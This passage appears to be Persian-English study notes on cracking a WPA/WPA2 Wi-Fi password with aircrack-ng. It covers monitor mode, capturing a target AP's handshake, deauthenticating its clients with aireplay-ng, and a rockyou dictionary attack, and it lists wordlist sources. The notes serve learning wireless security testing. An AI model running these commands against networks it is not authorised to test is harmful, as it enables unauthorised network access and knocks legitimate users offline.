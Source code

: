 	3. اطلاعات `Handshake` کپچر شده را در فایل `pass.cap` میتوانیم مشاهده کنیم. این فایل را در هنگام استارت شنود بر روی AP تارگت، در مقابل فلگ `w-` معرفی کردیم. 
	4. برای کرک هم باید از همین فایل استفاده کنیم.
----
```sh Terminal-1
"1. Check Existing Wifi Adapters"
iwconfig 
"2. Put Wifi Card on Monitor mode"
sudo airmon-ng start wlan0
"3. Capture all wifi traffics"
airodump-ng wlan0-mon
"4. Capture the related(target) traffic of your AP"
airodump-ng -c 6 --bssid C0:f6:B1:00:31:A0 -w pass wlan0mon

```
	![[Pasted image 20240705181309.png]]
	![[Pasted image 20240705182016.png]]
----
```sh Terminal-2
"5. Deauthentication the wireless clients from Target AP"
aireplay-ng -0 100 -a C0:f6:B1:00:31:A0 wlan0mon
```
	![[Pasted image 20240705182819.png]]
###### 2. Cracking Captured Handshake - Phase 2
0. *Pre-Pare Wordlist*
	1. در واقع میتوان گفت درصد و ضریب موفقیت در کرک پسورد به Wordlist که در حمله از آن استفاده میکنیم بستگی دارد.
	2. میتوانیم از Wordlist جامع Rockyou برای کرک استفاده کنیم که اگر فشرده است باید آماده شود.
		1. ![[Pasted image 20240705184838.png]]
	3. همچنین اگر پسورد مورد نظر در حمله با Rockyou کرک نشد، میتوانیم از Wordlist های زیر استفاده کنیم:
		1. https://weakpass.com
		2. https://github.com/danielmiessler/SecLists/tree/master/Passwords
		3. https://labs.nettitude.com/tools/rocktastic/
		4. https://github.com/kennyn510/wpa2-wordlists/tree/master/Wordlists
		5. *Slide*
			1. ![[Pasted image 20240705185203.png]]
1. *Cracking Wifi Password with `aircrack-ng` in Dictionary Attack Using Rockyou*
	1. این حمله را به دو روش میتوانیم انجام دهیم:
	2. `aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:f6:B1:00:31:A0 pass*.cap`
		1. `-w` Define Wordlist
		2. `-b` | `--bssid` Define Target Mac Address
		3. `pass*.cap` this is a Packet file where captured handshake is stored.
		4. Image
			1. ![[Pasted image 20240705184144.png]]
	3. `aircrack-ng -w /usr/share/wordlists/rockyou.txt pass*.cap`
		1. ![[Pasted image 20240705184552.png]]
	4. در واقع وارد کردن *BSSID(`-b`)* اختیاری است و برای افزایش کیفیت(در واقع دقت) حمله استفاده میشود.
2. Cracking Done and we can see wireless password in terminal
	1. ![[Pasted image 20240705184639.png]]
---
```sh
"6. Cracking Handshake pass*.cap"
#Way 1
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:f6:B1:00:31:A0 pass*.cap
#Way 2
aircrack-ng -w /usr/share/wordlists/rockyou.txt pass*.cap 
```
	![[Pasted image 20240705184639.png]]
##### All Tools in Aircrack-ng Suite
1. **Aircrack-ng**: The core tool of the suite, used to crack WEP and WPA/WPA2 passwords using various methods, including dictionary attacks, brute-force attacks, and PTW attacks.